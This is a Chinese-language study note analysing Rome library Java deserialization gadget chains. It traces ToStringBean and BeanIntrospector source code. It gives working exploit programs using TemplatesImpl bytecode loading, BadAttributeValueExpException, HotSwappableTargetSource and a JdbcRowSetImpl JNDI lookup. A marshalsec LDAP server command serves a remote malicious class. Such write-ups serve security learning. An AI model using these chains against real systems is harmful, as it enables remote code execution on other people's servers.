





#### Rome 反序列化

 Rome 是一个基于 java 环境运行的开源内容处理框架，实现 RSS 与 Atom 协议规范下的各种版本摘要数据的解析，生成，发布。

 需要对各个版本解析，为了避免硬编码，通过 Introspector 类，在运行时动态获取目标对象的类签名，通过反射遍历调用其读写方法。（容易有通过 getter setter 方法触发的 gadget）

    com.sun.syndication.feed.impl.ToStringBean 存在以下两个 tostring 方法

```java
public String toString() {
    Stack stack = (Stack)PREFIX_TL.get();
    String[] tsInfo = (String[])(stack.isEmpty() ? null : stack.peek());
    String prefix;
    if (tsInfo == null) {
        String className = this._obj.getClass().getName();
        prefix = className.substring(className.lastIndexOf(".") + 1);
    } else {
        prefix = tsInfo[0];
        tsInfo[1] = prefix;
    }

    return this.toString(prefix);
}


private String toString(String prefix) {
    StringBuffer sb = new StringBuffer(128);

    try {
        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(this._beanClass);
        // 跟进 BeanIntrospector.getPropertyDescriptors , 先去检查 _introspected 中是否存在该 class 的缓存数据，如果没有则调用 getPDs(klass)，并存入缓存，返回 descriptors

        // BeanIntrospector.getPropertyDescriptors(this._beanClass)
        public class BeanIntrospector {
            private static final Map _introspected = new HashMap();
            private static final String SETTER = "set";
            private static final String GETTER = "get";
            private static final String BOOLEAN_GETTER = "is";

            public static synchronized PropertyDescriptor[] getPropertyDescriptors(Class klass) throws IntrospectionException {
                PropertyDescriptor[] descriptors = (PropertyDescriptor[])_introspected.get(klass);
                if (descriptors == null) {
                    descriptors = getPDs(klass);
                    _introspected.put(klass, descriptors);
                }

                return descriptors;
            }
        }
        // BeanIntrospector.getPropertyDescriptors(this._beanClass)

        // 跟进 getPDs(klass)
        private static PropertyDescriptor[] getPDs(Class klass) throws IntrospectionException {
            Method[] methods = klass.getMethods();
            Map getters = getPDs(methods, false);
            Map setters = getPDs(methods, true);
            List pds = merge(getters, setters);
            PropertyDescriptor[] array = new PropertyDescriptor[pds.size()];
            pds.toArray(array);
            return array;
        }
        // getPDs(klass)

        // getPDs(methods, false) 获取 getter 无参方法， setter 一个参数的方法， is 无参方法，并存入 map 中返回。
        private static Map getPDs(Method[] methods, boolean setters) throws IntrospectionException {
            Map pds = new HashMap();

            for(int i = 0; i < methods.length; ++i) {
                String pName = null;
                PropertyDescriptor pDescriptor = null;
                if ((methods[i].getModifiers() & 1) != 0) {
                    if (setters) {
                        if (methods[i].getName().startsWith("set") && methods[i].getReturnType() == Void.TYPE && methods[i].getParameterTypes().length == 1) {
                            pName = Introspector.decapitalize(methods[i].getName().substring(3));
                            pDescriptor = new PropertyDescriptor(pName, (Method)null, methods[i]);
                        }
                    } else if (methods[i].getName().startsWith("get") && methods[i].getReturnType() != Void.TYPE && methods[i].getParameterTypes().length == 0) {
                        pName = Introspector.decapitalize(methods[i].getName().substring(3));
                        pDescriptor = new PropertyDescriptor(pName, methods[i], (Method)null);
                    } else if (methods[i].getName().startsWith("is") && methods[i].getReturnType() == Boolean.TYPE && methods[i].getParameterTypes().length == 0) {
                        pName = Introspector.decapitalize(methods[i].getName().substring(2));
                        pDescriptor = new PropertyDescriptor(pName, methods[i], (Method)null);
                    }
                }

                if (pName != null) {
                    pds.put(pName, pDescriptor);
                }
            }

            return pds;
        }
        // getPDs(methods, false)


        if (pds != null) {
            for(int i = 0; i < pds.length; ++i) {
                String pName = pds[i].getName();
                Method pReadMethod = pds[i].getReadMethod();
                if (pReadMethod != null && pReadMethod.getDeclaringClass() != Object.class && pReadMethod.getParameterTypes().length == 0) {
                    Object value = pReadMethod.invoke(this._obj, NO_PARAMS);
                    // for 循环遍历 pname pReadMethod(getter) 然后调用该 getter 方法，需要无参数，然后调用 this._obj 的 getter 方法，这里可以接 TemplateImpl 类的 getOutputProperties()方法
                    this.printProperty(sb, prefix + "." + pName, value);
                }
            }
        }
    } catch (Exception ex) {
        sb.append("\n\nEXCEPTION: Could not complete " + this._obj.getClass() + ".toString(): " + ex.getMessage() + "\n");
    }

    return sb.toString();
}
```

```java
public class ObjectBean implements Serializable, Cloneable {
    private EqualsBean _equalsBean;
    private ToStringBean _toStringBean;
    private CloneableBean _cloneableBean;

    public ObjectBean(Class beanClass, Object obj) {
        this(beanClass, obj, (Set)null);
    }

    public ObjectBean(Class beanClass, Object obj, Set ignoreProperties) {
        this._equalsBean = new EqualsBean(beanClass, obj);
        this._toStringBean = new ToStringBean(beanClass, obj);
        this._cloneableBean = new CloneableBean(obj, ignoreProperties);
    }

    public Object clone() throws CloneNotSupportedException {
        return this._cloneableBean.beanClone();
    }

    public boolean equals(Object other) {
        return this._equalsBean.beanEquals(other);
    }

    public int hashCode() {
        return this._equalsBean.beanHashCode();
    }

    public String toString() {
        return this._toStringBean.toString();
    }
}
```

exp 如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.NotFoundException;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class test1 {
    public static void main(String[] args) throws NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException {

        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);
        // 这里选择 Templates.class 而不是 TemplatesImpl.class 的原因是，Templates.class 仅有一个 getter 方法，getOutputProperties()
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl);
        toStringBean.toString();


    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }
}
```

```java
// EqualsBean 类
public int hashCode() {
    return this.beanHashCode();
}

public int beanHashCode() {
    return this._obj.toString().hashCode();
}

```

##### HashMap 对象反序列化时调用 key 的 hashCode() 方法触发

```java
HashMap hashMap = new HashMap();
EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

hashMap.put(equalsBean,1)
```

##### HashTable 集合反序列化时调用 key 的 hashCode() 方法触发

```java
Hashtable hashtable = new Hashtable<>();
EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

hashtable.put(equalsBean,1)
```

##### BadAttributeValueExpException 类触发 tostring 方法

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

```java
public class test1 {
    public static void main(String[] args) throws NotFoundException, IOException, CannotCompileException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {

        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));

        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(toStringBean);
        setFieldValue(badAttributeValueExpException,"val",toStringBean);
        byte[] bytes = serialize(badAttributeValueExpException);
        unserialize(bytes);

    }

    public static void setFieldValue(Object obj,String field,Object value) throws IllegalAccessException, NoSuchFieldException {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj,value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}


```

##### HotSwappable TargetSource 链


添加依赖
```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>

```

XString 类的 equals 方法可以触发 toString()
```java
public boolean equals(Object obj2) {
    if (null == obj2)
        return false;
    else if (obj2 instanceof XNodeSet)
        return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
        return str().equals(obj2.toString());
}
```
​	这里的 toString 拼接前面 rome 的链子。

​	HashMap 反序列化重建哈希表时会触发 key 的 putvals 方法，而 putvals 方法中会调用 key 的 equals 方法
​	这里对 HashMap 的 putvals 方法进行分析，HashMap 中的两个对象需要 hashcode 相同，并且存储地址不同，且 Key 不为 Null

```java
final V putVal(int hash, K key, V value, boolean onlyIfAbsent,boolean evict) {
    Node<K,V>[] tab; Node<K,V> p; int n, i;
    if ((tab = table) == null || (n = tab.length) == 0)
        n = (tab = resize()).length;
    if ((p = tab[i = (n - 1) & hash]) == null)
        tab[i] = newNode(hash, key, value, null);
    else {
        
        
        Node<K,V> e; K k;
        if (p.hash == hash && ((k = p.key) == key || (key != null && key.equals(k))))
            
            
            e = p;
        else if (p instanceof TreeNode)
            e = ((TreeNode<K,V>)p).putTreeVal(this, tab, hash, key, value);
        else {
            for (int binCount = 0; ; ++binCount) {
                if ((e = p.next) == null) {
                    p.next = newNode(hash, key, value, null);
                    if (binCount >= TREEIFY_THRESHOLD - 1) // -1 for 1st
                        treeifyBin(tab, hash);
                    break;
                }
                if (e.hash == hash &&
                    ((k = e.key) == key || (key != null && key.equals(k))))
                    break;
                p = e;
            }
        }
        if (e != null) { // existing mapping for key
            V oldValue = e.value;
            if (!onlyIfAbsent || oldValue == null)
                e.value = value;
            afterNodeAccess(e);
            return oldValue;
        }
    }
    ++modCount;
    if (++size > threshold)
        resize();
    afterNodeInsertion(evict);
    return null;
}
```
但是 toStringBean 和 XString 的 hashcode 很难相同，  为此，找到org.springframework.aop.target.HotSwappableTargetSource 该类，因为该类的 hashCode() 方法是对 class 进行 hashCode 计算。同一个类加载器的生命周期内，一个确定的类只有一个 Class 对象

```java
public boolean equals(Object other) {
    return this == other || other instanceof HotSwappableTargetSource && this.target.equals(((HotSwappableTargetSource)other).target);
}

public int hashCode() {
    return HotSwappableTargetSource.class.hashCode();
}
```



可以通过 hsts 通过 hash 对比，进入 equals 方法，提取第一个也就是 other 的 target 对象，调用第二个 key 的 equals(target)

```java
XString xString = new XString("wsh");
Map map_ = new HashMap();
map_.put(1,1)
    
HotSwappableTargetSource hsts1 = new HotSwappableTargetSource(map_);
HotSwappableTargetSource hsts2 = new HotSwappableTargetSource(xString);

Map map = new HashMap();
map.put(hsts1,hsts1);
map.put(hsts2,hsts2);
setFieldValue(hsts1,"target",toStringBean)
```

这样第二个 key 与第一个 key 对比时会调前面的 target ，toStringBean 作为第二个 target (XString) 的 equals() 方法的参数 obj2

```java
public boolean equals(Object other) {
    return this == other || other instanceof HotSwappableTargetSource && this.target.equals(((HotSwappableTargetSource)other).target);
}
```



实现对 obj2 的 toString 方法的调用，obj2 应设置为 toStringBean 

调用栈以及细节如下




##### jdbcRowSetImpl 链

​	Fastjson 和 ROME 链中，可以通过触发 getter 方法 来控制 lookup 的 JNDI 地址为恶意 url ，返回一个 java Reference 对象，让其远程加载恶意 class 执行静态代码，或是加载本地 BeanFactory

存在如下 getter 方法


跟进 connect 方法



getDataSourceName 方法返回该类的 dataSource


exp 如下

```java
import java.lang.reflect.Field;
import javax.management.BadAttributeValueExpException;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import java.io.FileOutputStream;
import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Main{
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        rs.setDataSourceName("ldap://127.0.0.1:9999/Exploit");

        BadAttributeValueExpException bad = new BadAttributeValueExpException(null);
        ToStringBean x1 = new ToStringBean(JdbcRowSetImpl.class,rs);

        setFieldValue(bad,"val",x1);

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("ser.ser"));
        out.writeObject(bad);
        out.close();

        ObjectInputStream input = new ObjectInputStream(new FileInputStream("ser.ser"));
        input.readObject();
        input.close();

    }
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

大概第三次可以触发 getDatabaseMetaData 方法，进而触发 JNDI 。


```bash
java -cp  marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:7777/#calcEvil 9999
```




**参考文章**

https://xz.aliyun.com/picture-cat?id=5&childid=73